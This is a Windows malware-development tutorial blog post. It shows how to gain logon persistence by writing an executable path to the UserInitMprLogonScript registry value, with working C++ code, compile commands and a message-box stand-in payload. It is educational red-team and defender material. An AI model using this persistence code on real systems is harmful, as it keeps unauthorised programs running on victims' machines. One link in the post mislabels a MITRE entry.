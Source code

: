 ```yaml
---
title:  "Malware development: persistence - part 20. UserInitMprLogonScript (Logon Script). Simple C++ example."
date:   2022-12-09 03:00:00 +0300
header:
  teaser: "/assets/images/82/2022-12-11_18-11.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/82/2022-12-11_18-11.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via `UserInitMprLogonScript` value.     

### UserInitMprLogonScript

Windows enables the execution of logon scripts whenever a user or group of users logs into a system. Adding a script's path to the `HKCU\Environment\UserInitMprLogonScript` Registry key accomplishes this. So, to establish persistence, hackers may utilize Windows logon scripts automatically executed upon logon initialization.      

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox application (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
setting UserInitMprLogonScript value
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // env
  const char* env = "Environment";

  // evil app
  const char* exe = "Z:\\2022-12-09-malware-pers-20\\hack.exe";

  // environment
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)env, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_CURRENT_USER\Environment" /v "UserInitMprLogonScript" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UserInitMprLogonScript", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple. Just set `UserInitMprLogonScript` key value under `HKCU\Environment` to the full path of our "malware" - `Z:\\2022-12-09-malware-pers-20\hack.exe`.     

### demo

Let's go to see everything in action. First of all, check Registry:      

```powershell
reg query "HKCU\Environment" /s
```

![pers](/assets/images/82/2022-12-11_17-57.png){:class="img-responsive"}    


Then, compile our "malware" at the attacker's machine (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/82/2022-12-11_17-54.png){:class="img-responsive"}    

And for checking correctness, try to run `hack.exe` at the victim's machine (`Windows 10 x64` in my case):    

```powershell
.\hack.exe
```

![pers](/assets/images/82/2022-12-11_18-00.png){:class="img-responsive"}    

As you can see, our "malware" works perfectly.    

At the next step, let's go to compile our persistence script at the attacker's machine:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/82/2022-12-11_17-55.png){:class="img-responsive"}    

And run it at the attacker's machine:    

```powershell
.\pers.exe
```

Then, check our Registry key values again:    

```powershell
reg query "HKCU\Environment" /s
```

![pers](/assets/images/82/2022-12-11_18-06.png){:class="img-responsive"}    

So, as you can see, the key (`UserInitMprLogonScript`) value is set.    

That's all. Try to logout and login:     

![pers](/assets/images/82/2022-12-11_18-07.png){:class="img-responsive"}    

![pers](/assets/images/82/2022-12-11_18-07_1.png){:class="img-responsive"}    

And after a few milliseconds, our "malware", `meow-meow` popped up:     

![pers](/assets/images/82/2022-12-11_18-08.png){:class="img-responsive"}    

Then, if we open Process Hacker and check `hack.exe` properties:     

![pers](/assets/images/82/2022-12-11_18-09.png){:class="img-responsive"}    

![pers](/assets/images/82/2022-12-11_18-10.png){:class="img-responsive"}    

we see that the parent process is "non-existent" process.    

If you have studied the windows internals at least a little, you know that exists processes which have "non-existent" process as parent. For example, Windows Explorer - `explorer.exe`. Parent process is `userinit.exe` or `winlogon.exe`, but can be anything `.exe` using `explorer.exe`. Parent will show as `<Non-existent Process>` since `userinit.exe` terminates itself. Another example is Windows Logon - `winlogon.exe`. Parent is "does not exist" since `smss.exe` exits.      

If we check `hack.exe` properties via [Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer), we can see "Autostart Location" value:    

![pers](/assets/images/82/2022-12-11_20-05.png){:class="img-responsive"}    

Everything is worked perfectly! =^..^=

After the end of experiment, delete the key:    

```powershell
Remove-ItemProperty -Path "HKCU:\Environment" -Name "UserInitMprLogonScript"
```

![pers](/assets/images/82/2022-12-19_18-00.png){:class="img-responsive"}    

This persistence trick is used by [APT28](https://attack.mitre.org/groups/G0007) group and software like [Attor](https://attack.mitre.org/software/S0438) and [Zebrocy](https://attack.mitre.org/software/S0438) at the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

> This is a practical case for educational purposes only.      

[Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)        
[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007)      
[Attor](https://attack.mitre.org/software/S0438)        
[Zebrocy (Trojan)](https://attack.mitre.org/software/S0438)       
[source code in github](https://github.com/cocomelonc/2022-12-09-malware-pers-20)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
